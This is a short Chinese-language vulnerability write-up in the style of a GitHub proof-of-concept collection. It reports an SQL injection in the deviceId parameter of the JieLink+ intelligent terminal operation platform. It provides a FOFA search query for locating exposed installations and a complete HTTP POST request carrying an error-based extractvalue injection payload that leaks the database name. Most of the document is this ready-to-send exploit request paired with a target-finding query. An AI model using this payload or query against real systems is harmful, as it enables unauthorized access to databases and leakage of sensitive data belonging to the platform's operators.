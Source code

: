 ## JieLink+智能终端操作平台存在sql注入漏洞

jieLink+智能终端操作平台deviceId参数存在sql注入漏洞，攻击者利用此漏洞可导致数据库的敏感信息泄露。

## fofa

```
title="JieLink+智能终端操作平台"
```

## poc

```
POST /mobile/Remote/GetParkController HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: DefaultSystem=Mobile; ASP.NET_SessionId=533gfzuselgriachdgogkug5
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
 
deviceId=1'and/**/extractvalue(1,concat(char(126),database()))and'
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407031649500.png)